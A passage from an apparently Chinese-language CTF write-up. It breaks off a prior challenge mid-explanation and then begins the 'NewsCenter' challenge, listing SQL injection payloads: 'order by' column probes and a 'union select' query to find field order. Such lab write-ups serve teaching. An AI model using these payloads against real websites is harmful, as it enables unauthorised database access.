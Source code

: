 所以a=a，b=1234a就可以过

# 进阶

## NewsCenter

sql注入

![1568203065094](assets/1568203065094.png)

进去以后是这种画面，并不不知道要干什么，但是wyd说是个sql注入，而且不是盲注

根据下面的新闻的名字经行尝试

```
Hello' order by 1#
Hello' order by 2#
Hello' order by 3#
Hello' order by 4#
```

发现有3个字段（4的时候出现错误）

```
Hello' union select 1,2,3 #
```

用以上语句检测字段顺序

![1568206451967](assets/1568206451967.png)
